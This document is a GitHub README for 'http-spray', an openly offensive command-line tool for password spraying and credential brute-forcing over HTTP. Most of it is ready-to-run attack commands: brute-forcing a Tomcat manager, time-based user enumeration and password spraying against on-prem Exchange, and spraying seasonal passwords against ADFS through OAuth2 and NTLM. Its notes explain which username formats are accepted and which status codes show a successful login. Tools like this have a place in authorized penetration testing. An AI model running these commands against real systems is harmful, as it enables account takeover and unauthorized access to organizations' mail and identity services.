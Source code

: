 # http-spray

## Setup

Install with [pipx](https://github.com/pypa/pipx/).

~~~ bash
pipx install git+https://github.com/dadevel/http-spray.git
~~~

## Usage

Brute force Tomcat manager.

~~~ bash
curl -LO https://github.com/dadevel/wordlists/raw/main/passwords/tomcat-credentials.txt
http-spray -t https://app.corp.com/tomcat/manager/html -m basic -C ./tomcat-credentials.txt | tee -a ./http-spray.json | jq -c 'select(.status_code != 401)'
~~~

Time-based user enumeration against on-prem Exchange server.
Requests for valid users take about 0.1s, invalid users take more than 1.5s.

~~~ bash
http-spray -t https://mail.corp.com/rpc/ -m basic -U ./users.txt -p '' | tee -a ./http-spray.json | jq -c 'select(.time < 0.5)'
~~~

> **Note:**
>
> The user enumeration requires basic authentication and seems to work only with the user formats `corp\jdoe` and `corp.com\jdoe` where `jdoe` is the *samaccountname*.

Spray common service accounts against on-prem Exchange server.

~~~ bash
http-spray -t https://mail.corp.com/rpc/ -m ntlm -c scanner:scanner -c printer:printer | tee -a ./http-spray.json | jq -c 'select(.status_code != 401)'
~~~

> **Note:**
>
> The RPC endpoint returns 404 for successful logins.
> For alternate endpoints see [here](https://github.com/dadevel/wordlists/raw/main/windows/exchange.txt).
>
> Furthermore Exchange accepts the following username formats: `jdoe`, `corp\jdoe`, `corp.com\jdoe` and `jdoe@corp.com` where `jdoe` is the *samaccountname*.
> Depending on the environment the *mail* attribute, e.g. `john.doe@corp.com`, might work for the OWA web login.

Spray weak passwords against ADFS trough OAuth2 password grant.

~~~ bash
http-spray -t https://sts.corp.com/adfs/oauth2/token/ -m oauth --client-id 11111111-2222-3333-4444-555555555555 --resource https://app.corp.com/ -U ./users.txt -p 'Summer2023!' -p 'Winter2023!' | tee -a ./http-spray.json | jq -c 'select(.status_code == 200)'
~~~

Spray weak passwords against ADFS trough NTLM authentication.

~~~ bash
http-spray -t https://sts.corp.com/adfs/services/trust/2005/windowstransport -m ntlm -U ./users.txt -p 'Summer2023!' -p 'Winter2023!' | tee -a ./http-spray.json
~~~

> **Note:**
>
> ADFS accepts the following username formats: `corp\jdoe`, `corp.com\jdoe` and `jdoe@corp.com` where `jdoe` is the *samaccountname*.
> Depending on the environment the *mail* attribute, e.g. `john.doe@corp.com`, might work as well.
